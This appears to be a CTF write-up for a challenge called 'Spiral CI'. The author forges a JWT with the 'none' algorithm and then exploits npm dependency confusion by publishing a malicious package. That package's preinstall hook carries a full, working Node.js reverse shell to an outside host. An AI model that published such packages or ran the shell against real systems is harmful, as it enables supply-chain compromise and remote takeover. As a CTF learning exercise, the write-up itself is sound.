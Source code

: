 ### Spiral CI
---
### Description

![img/1.png](img/1.png "img_1")

The application only have login, there's not much feature in this application.

![img/2.png](img/2.png "img_2")

The first thought i was doing is brute forcing the login. But I didn't found anything.

And then, I realize the index page will automatically generating a JWT cookies. So, the first thing i do if I found JWT is attempt to check is the application accepting a `none` algorithm and keep the original signature.

I am using `jwt_tool` to modify the algorithm

attempt to modify algorithm to `none` and user_id to `0`

![img/3.png](img/3.png "img_3")

![img/4.png](img/4.png "img_4")

Lets set our cookies to the result of generated JWT.

![img/5.png](img/5.png "img_5")

Great, We got a response showing that `user_id:0` didnt exist. It seems the application accepting `none` algorithm

let's check another `user_id` 

`user_id:1`

![img/6.png](img/6.png "img_6")

![img/7.png](img/7.png "img_7")

Well, the response is showing that the user is `disabled`. let's check another user

`user_id:2`

![img/8.png](img/8.png "img_8")

![img/9.png](img/9.png "img_9")

Great!, we got a valid user_id, let's download the ([projects](dl/))

nothing suspicious. But, in `calculator` they're using a private dependency.

([dl/calculator/package.json](dl/calculator/package.json))
```
{
  "name": "calculator",
  "version": "1.0.0",
  "description": "Calculator test using a JS module",
  "main": "app.js",
  "scripts": {
    "test": "node calc.test.js"
  },
  "author": "congon4tor",
  "license": "ISC",
  "dependencies": {
    "calc_gl2xiahl1g": "^1.0.0",
    "prompt-sync": "^4.2.0"
  }
}
```

I am pretty sure `calc_gl2xiahl1g` dependency is not a common name for public dependency.

The first thought i have is it was dependency confusion.

init the packages using `$ npm init`

![img/10.png](img/10.png "img_10")

add `"preinstall": "node calc.test.js"` inside `scripts` object

([n/package.json](n/package.json))
```
{
  "name": "calc_gl2xiahl1g",
  "version": "1.0.1",
  "description": "nyxsorcerer",
  "main": "calc.test.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "preinstall": "node calc.test.js"
  },
  "author": "nyxsorcerer",
  "license": "ISC"
}
```

Create `calc.test.js` so our script will be executed first when our packages is downloaded.

([n/calc.test.js](n/calc.test.js))
```
var net = require('net');
var spawn = require('child_process').spawn;
HOST="ip_addr";
PORT="port";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { 
    String.prototype.contains = function(it) { 
        return this.indexOf(it) != -1; 
    }; 
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit', function(code,signal){
            client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

let's publish our package to npm `$ npm publish`

![img/12.png](img/12.png "img_12")

Create a listening service and hit the `Launch Test` button

![img/13.png](img/13.png "img_13")

Wait a couple seconds and our listening service got a new connection

![img/14.png](img/14.png "img_14")

Great! we got the FLAG
